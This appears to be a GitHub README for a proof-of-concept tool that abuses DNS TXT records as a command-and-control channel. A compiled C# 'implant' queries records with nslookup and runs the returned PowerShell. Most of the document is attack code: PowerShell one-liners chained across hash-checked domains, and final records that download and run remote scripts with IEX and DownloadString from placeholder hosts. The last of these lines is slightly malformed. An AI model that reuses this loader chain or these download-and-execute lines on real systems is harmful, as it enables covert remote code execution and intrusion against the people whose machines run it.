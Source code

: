 ## **1. Decision making**

- In the following Proof of Concept, CSharp code is compiled and was used as an agent on a target. The purpose is to make the first request.
- Powershell is utilised as TXT entries at the dns servers

The following is a demonstration of how TXT entries in dns servers can be utilized to make decisions based on their content.
1. a request is made: ```powershell (nslookup -q=txt bad.com)[5]```
2. the response is evaluated for a specific content (eg. hash, command, etc.)
3. according to the content of the response, an "if - else" statement will be executed (3.a./3.b.)

![decision_1](https://github.com/user-attachments/assets/d4516b8d-db16-4bc3-8b22-eaefda39700d)


##### Code:
```powershell
Powershell:
$output = nslookup -q=txt bad.com

# Search for the presence of the string "ls" in the output
if ($output | Select-String -Pattern "ls") { 

	#Write-Output "The keyword 'ls' was found in the TXT records."
    $first_command = powershell (nslookup -q=txt bad-1.com)[5]
    $first_command
    
	} else { 

	#Write-Output "The keyword 'ls' was not found in the TXT records." 
    $second_command = powershell (nslookup -q=txt bad-2.com)[6]
    $second_command

	}}
```


```csharp
CSharp:
// Check if the result contains "9fe8ec4dc33fd875e8fa6560f65f9be8"
if (result.Contains("9fe8ec4dc33fd875e8fa6560f65f9be8"))
{ 

	// If the result contains "9fe8ec4dc33fd875e8fa6560f65f9be8", run a new command
	Console.WriteLine("Output contains '9fe8ec4dc33fd875e8fa6560f65f9be8', executing new command...");
	
	string newCommand = "powershell (nslookup -q=txt bad-1.com)[6]"; // Example: You can run any command here
	string newResult = RunPowerShellCommand(newCommand);
	
	// Print the results of the new command
	Console.WriteLine(newResult);
}
else
{
	// If "9fe8ec4dc33fd875e8fa6560f65f9be8" is not found, execute this code block
	string newerCommand = "powershell (nslookup -q=txt bad-2.com)[5]";
	string newerResult = RunPowerShellCommand(newerCommand);

	// Print the results of the new command
	Console.WriteLine(result);
}
```

## **2. Decision making - Pivoting (simple)**
The decision is made on the client

![pivoting1_simple](https://github.com/user-attachments/assets/b0b6e5d7-c9b5-41b2-b082-7d9d6ba00ae4)


1. First-Base:
Request to original dns at bad.com to get TXT entries.
``` nslookup -q=txt bad.com ```

2. The request is received and evaluated for a certain string/hash
If certain content is present, executes the according TXT entry:  
``` echo 'FIRST-BASE' > first_base.txt;powershell (nslookup -q=txt bad-1.com)[5] ```  
If not present, make a text file containing a humble message (continue at 5)

3. Second-Base:
Then proceed to bad-1.com which contains the next command to execute  
``` echo 'SECOND_BASE' > second_base.txt;powershell (nslookup -q=txt bad-2.at)[5] ```

4. Third-Base:
Request to kqmg.at
``` echo 'THIRD-BASE' > third_base.txt ```

5. No-Base:
Execute the fall back command in an else-statement and exit:  
<code>powershell (nslookup -q=txt some-domain.com)[5]</code>  
The fall-back domain has the following TXT entry:  
``` echo 'Nothing here to see or gain. Better luck next time' > nothing_here.txt ```

Full code here (C#): [Implants](https://github.com/Dood3/NSHookup/tree/main/nshookup_SRC/implants)

## **2. Decision making - Pivoting (multi-hop)**

Template of a TXT entry on the 1st dns server is Powershell in one line (204 characters).
The oneliner declares the content of the response from the nslookup command as variable. Then it looks for the string "ls".  
The if-else statement declares also each nslookup requests as a variable which will be executed accordingly.  
The limit of characters in a TXT entry is 255:
```powershell
$output = nslookup -q=txt bad.com;if ($output | Select-String -Pattern "ls") { $first = powershell (nslookup -q=txt kqmg.at)[5];$first } else { $second = powershell (nslookup -q=txt bad.com)[6];$second }
```

#### *TXT Entries:*
bad.com:
```
"9fe8ec4dc33fd875e8fa6560f65f9be8"
```
bad-1.com:
```powershell
$o=nslookup -q=txt bad-2.com;if($o|Select-String -Pattern "4098f361bd6eccd44b7ac4948d770a60"){$f=powershell (nslookup -q=txt bad-2.com)[6];$f}else{$s=powershell (nslookup -q=txt bad-3.com)[5];$s}
```
bad-2.com:
```powershell
4098f361bd6eccd44b7ac4948d770a60;$o=nslookup -q=txt bad-2.com;if($o|Select-String -Pattern "3f33323aef889606589b98fbb62c112e"){$f=powershell (nslookup -q=txt bad-2.com)[6];$f}else{$s=powershell (nslookup -q=txt no-success.com)[5];$s}
```
bad-3.com:
```powershell
f6fd44d24b96ca51092b17bcb1048ac4;$o=nslookup -q=txt bad-4.com;if($o|Select-String -Pattern "sdfsgfdssgfdsg"){$f=powershell notepad.exe;$f}else{$s=powershell (nslookup -q=txt bad-4.com)[10];$s}
```
bad-4.com:
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://some-malicious-mischief.ps1')|iex
```
no-success.com:
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://blah.com/mischief.ps1')|iex
```
![pivoting1_multi](https://github.com/user-attachments/assets/b2d86162-0ad1-442c-b238-751876213068)


**Explanation:**

1. The implant "pivoting.exe" makes a request to bad.com with ```nslookup -q=txt bad.com```. In this case the TXT entry contains a checksum/hash:
```bad.com text = "9fe8ec4dc33fd875e8fa6560f65f9be8;"```

2. If the hash is received in the response, it executes <code>powershell (nslookup -q=txt bad-1.com)[13]</code> to another domain, which indexes the 13th TXT entry at <code>bad-1.com</code> (in this case 196 characters).
Otherwise, if the hash is not present, "pivoting.exe" leaves a text file with an error message and exits.

3. Following a successful event with the hash present, <code>bad-1.com</code> is requested, which contains the following TXT entry at the 13th position:
```powershell
$o=nslookup -q=txt bad-2.com;if($o|Select-String -Pattern "4098f361bd6eccd44b7ac4948d770a60"){$f=powershell (nslookup -q=txt bad-2.com)[6];$f}else{$s=powershell (nslookup -q=txt bad-3.com)[5];$s}
```

4. ```bad-2.com``` has a TXT entry of (235 characters):
```powershell
4098f361bd6eccd44b7ac4948d770a60;$o=nslookup -q=txt bad-2.com;if($o|Select-String -Pattern "3f33323aef889606589b98fbb62c112e"){$f=powershell (nslookup -q=txt bad-2.com)[6];$f}else{$s=powershell (nslookup -q=txt no-success.com)[5];$s}
```
Again, if the hash is returned, a request to ```bad-2.com``` is made, which contains the following TXT entry:
```powershell
3f33323aef889606589b98fbb62c112e;$o=nslookup -q=txt bad-3.com;if($o|Select-String -Pattern "f6fd44d24b96ca51092b17bcb1048ac4"){$f=powershell (nslookup -q=txt bad-3.com)[6];$f}else{$s=powershell calc.exe;$s}
```
Upon successful retrieval of the hash, ```bad-3.com``` is requested. Otherwise ```calc.exe``` will be opened.

5. ```bad-3.com``` houses the TXT entry:
```powershell
f6fd44d24b96ca51092b17bcb1048ac4;$o=nslookup -q=txt bad-4.com;if($o|Select-String -Pattern "sdfsgfdssgfdsg"){$f=powershell notepad.exe;$f}else{$s=powershell (nslookup -q=txt bad-4.com)[10];$s}
```
As long as the hash is found, ```notepad.exe``` will be opened. Otherwise the next request to ```bad-4.com``` is made, which houses the last TXT entry in this chain.

6. ```bad-4.com``` houses the TXT entry:
```powershell
IEX (New-Object Net.WebClient).DownloadString('https://some-malicious-mischief.ps1'|iex)
```

